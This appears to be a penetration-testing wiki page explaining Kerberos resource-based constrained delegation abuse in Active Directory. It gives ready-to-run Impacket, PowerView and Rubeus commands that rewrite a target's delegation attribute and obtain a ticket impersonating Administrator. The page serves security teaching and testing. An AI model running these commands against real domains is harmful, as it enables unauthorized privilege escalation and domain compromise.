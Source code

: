 # (RBCD) Resource-based constrained

## Theory

If an account, having the capability to edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor of another object (e.g. the `GenericWrite` ACE, see [Abusing ACLs](../../access-controls/)), is compromised, an attacker can use it populate that attribute, hence configuring that object for RBCD.

{% hint style="success" %}
Machine accounts can edit their own `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor. Hence allowing RBCD attacks on relayed machine accounts authentications.
{% endhint %}

For this attack to work, the attacker needs to populate the target attribute with an account having a `ServicePrincipalName` set (needed for Kerberos delegation operations). The usual way to conduct these attacks is to create a computer account, which comes with an SPN set. This is usually possible thanks to a domain-level attribute called [`MachineAccountQuota`](../../domain-settings/machineaccountquota.md) that allows regular users to create up to 10 computer accounts. While this "computer account creation + RBCD attack" is the most common exploitation path, doing so with a user account (having at least one SPN) is perfectly feasible.

Then, in order to abuse this, the attacker has to control the account the object's attribute has been populated with (i.e. the account that has an SPN). Using that account's credentials, the attacker can obtain a ticket through `S4U2Self` and `S4U2Proxy` requests, just like constrained delegation with protocol transition.

In the end, an RBCD abuse results in a Service Ticket to authenticate on a target service on behalf of a user. Once the final Service Ticket is obtained, it can be used with [Pass-the-Ticket](../ptt.md) to access the target service.&#x20;

{% hint style="success" %}
On a side note, a technique called [AnySPN or "service class modification"](../ptt.md#modifying-the-spn) can be used concurrently with pass-the-ticket to change the service class the Service Ticket was destined to (e.g. for the `cifs/target.domain.local` SPN, the service class is `cifs`).
{% endhint %}

![](../../../../.gitbook/assets/Kerberos\_delegations-rbcd.drawio.png)

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
**1 - Edit the target's security descriptor (ACE abuse) **:pencil2:** **

[Impacket](https://github.com/SecureAuthCorp/impacket/)'s [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py) script (Python) _c_an be used to read, write or clear the delegation rights, using the credentials of a domain user that has the needed permissions.

```bash
# Read the security descriptor
rbcd.py -delegate-to 'target$' -dc-ip 'DomainController' -action read 'DOMAIN'/'POWERFULUSER':'PASSWORD'

# Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity SD
rbcd.py -delegate-from 'accountwithSPN' -delegate-to 'target$' -dc-ip 'DomainController' -action write 'DOMAIN'/'POWERFULUSER':'PASSWORD'
```

{% hint style="success" %}
Testers can also use [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to set the delegation rights with the `--delegate-access` option when conducting this attack from a [relayed authentication](../../ntlm/relay.md).
{% endhint %}

**2 - Obtain a ticket (delegation operation) **:ticket:** **

Once the security descriptor has been modified, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python) can then perform all the necessary steps to obtain the final "impersonating" ST (in this case, "Administrator" is impersonated but it can be any user in the environment).

```bash
getST.py -spn $target_SPN -impersonate Administrator -dc-ip $DomainController 'DOMAIN/SHUTDOWN$:SomePassword'
```

{% hint style="warning" %}
In [some cases](./#theory), the delegation will not work. Depending on the context, the [bronze bit ](../forged-tickets.md#bronze-bit-cve-2020-17049)vulnerability (CVE-2020-17049) can be used with the `-force-forwardable` option to try to bypass restrictions.
{% endhint %}

{% hint style="info" %}
The SPN (Service Principal Name) set can have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)). There however scenarios where the SPN can be changed ([AnySPN](../ptt.md#modifying-the-spn)) to access more service. This technique is automatically tried by Impacket scripts when doing pass-the-ticket.
{% endhint %}

**3 - Pass-the-ticket **:passport\_control:** **

Once the ticket is obtained, it can be used with [pass-the-ticket](../ptt.md).
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../../credentials/impersonation.md) part.

**1 - Edit the target's security descriptor (ACE abuse)**:pencil2:** **

The [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Set-ADComputer and Get-ADComputer can be used to write and read the attributed of an object (in this case, to modify the delegation rights).

```bash
# Read the security descriptor
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount

# Populate the msDS-AllowedToActOnBehalfOfOtherIdentity
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount 'accountwithSPN'
```

PowerSploit's [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module is an alternative that can be used to edit the attribute ([source](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html?highlight=genericall#id31)).

```bash
# Obtain the SID of the controlled computer account
$ComputerSid = Get-DomainComputer 'PENTEST01' -Properties objectsid | Select -Expand objectsid

# Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set SD in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the target comptuer account
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

**2 - Obtain a ticket (delegation operation) **:ticket:** **

[Rubeus](https://github.com/GhostPack/Rubeus) can then be used to request the TGT and "impersonation ST" and inject it for later use.

```bash
# Request the TGT
Rubeus.exe tgtdeleg

# Request the "impersonation" service ticket
Rubeus.exe s4u /user:SHUTDOWN$ /rc4:$NThash /impersonateuser:Administrator /msdsspn:$Target_SPN /ptt
```

The NT hash can be computed as follows.

```bash
Rubeus.exe hash /password:$password
```

**3 - Pass-the-ticket **:passport\_control:** **

Once the ticket is injected, it can natively be used when accessing the service (see [pass-the-ticket](../ptt.md)).
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/" %}

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/" %}
